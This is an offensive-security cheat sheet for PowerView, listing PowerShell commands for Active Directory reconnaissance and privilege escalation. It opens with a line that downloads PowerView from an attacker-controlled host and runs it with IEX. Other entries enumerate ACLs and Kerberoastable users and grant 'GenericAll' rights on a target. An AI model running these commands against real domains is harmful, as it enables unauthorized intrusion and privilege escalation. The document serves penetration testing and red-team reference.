 # powerview

% ad, windows, powerview

## load from remote
#plateform/windows #target/remote  #cat/RECON 

https://github.com/PowerShellMafia/PowerSploit/

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Set alternative creds to use
#plateform/windows #target/remote  #cat/RECON 
Example : Use with commands as "-Credential $creds"

```powershell
$passwd = ConvertTo-SecureString <password> -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential (<domain\user>, $passwd)
Get-DomainUser -Credential $Cred
```

## Get User from SID
#plateform/windows #target/remote  #cat/RECON 
```powershell
ConvertFrom-SID <sid>
```

## Find user ACL 
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## Find all domain user ACL
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Add user DACL
#plateform/windows #target/remote  #cat/ATTACK
```powershell
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <current_user> -Rights All
```

## Find all groups our current user got access
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Find all users our current user got access
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## Add GenericAll to target for user
#plateform/windows #target/remote  #cat/ATTACK/EXPLOIT 
```powerview
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <user> -Rights All
```

## Find all Computer with unconstrained delegation
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainComputer -Unconstrained
```

## Get all domain trust 
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainTrustMapping
```

## Get all members of a a given group
#plateform/windows #target/remote  #cat/RECON 
Example: Get-DomainGroupMember "Domain Admins" -Recurse

```powershell
Get-DomainGroupMember -Identity "<group|Administrators>" -Domain <domain> -Recurse
```



## Get list of kerberoastable users
#plateform/windows #target/remote  #cat/RECON 
Description : The following will enumerate 'Kerberoastable' users for a given domain

```powershell
Get-DomainUser -SPN -Domain <domain> | select name, samaccountname, serviceprincipalname
```

